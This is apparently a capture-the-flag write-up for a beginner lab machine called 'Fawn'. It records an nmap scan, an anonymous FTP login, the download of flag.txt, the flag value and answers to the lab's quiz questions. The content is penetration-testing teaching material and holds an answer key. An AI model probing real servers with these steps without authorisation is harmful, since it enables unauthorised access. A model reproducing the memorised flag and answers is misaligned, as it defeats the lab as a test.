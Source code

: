 ## Fawn

Ping host to check if reachable: `ping 10.129.61.254`

Run nmap to detect ports: `sudo nmap 10.129.61.254`

Run nmap with version info: `sudo nmap -sV 10.129.61.254`

```
PORT   		STATE 	SERVICE 	VERSION
21/tcp 		open  	ftp             vsftpd 3.0.3
Service Info: OS: Unix
```

Logging into the FTP with anonymus account, password can be anything since it will be disregarded: 
`ftp 10.129.61.254`
``` 
Connected to 10.129.61.254.
220 (vsFTPd 3.0.3)
Name (10.129.61.254:sebastiaan): anonymous
331 Please specify the password.
Password: 
230 Login successful.
```

Checked the content of the folder, found the flag.txt file

```
ftp> ls
229 Entering Extended Passive Mode (|||34390|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```

Download the flag file to local machine

```
ftp> get flag.txt
local: flag.txt remote: flag.txt
226 Transfer complete.
32 bytes received in 00:00 (0.87 KiB/s)
ftp> bye
221 Goodbye.
```

Opening flag file 
```
cat flag.txt
035db21c881520061c53e0536e44f815 
```

## Screenshots

![pwnd Fawn.png](..%2Fmedia%2Fpwnd%20Fawn.png)

## Quiz Questions

What does the 3-letter acronym FTP stand for? 
- File Transfer protocol

Which port does the FTP service listen on usually? 
- 21

FTP sends data in the clear, without any encryption. What acronym is used for a later protocol designed to provide similar functionality to FTP but securely, as an extension of the SSH protocol? 
- SFTP

What is the command we can use to send an ICMP echo request to test our connection to the target? 
- Ping

From your scans, what version is FTP running on the target? 
- vsftpd 3.0.3 

From your scans, what OS type is running on the target?
- Unix

What is the command we need to run in order to display the 'ftp' client help menu? 
- ftp -?

What is username that is used over FTP when you want to log in without having an accou
- anonymus

What is the response code we get for the FTP message 'Login successful'? 
- 230

There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system. 
- ls

What is the command used to download the file we found on the FTP server? 
- get

Root flag 
- 035db21c881520061c53e0536e44f815 
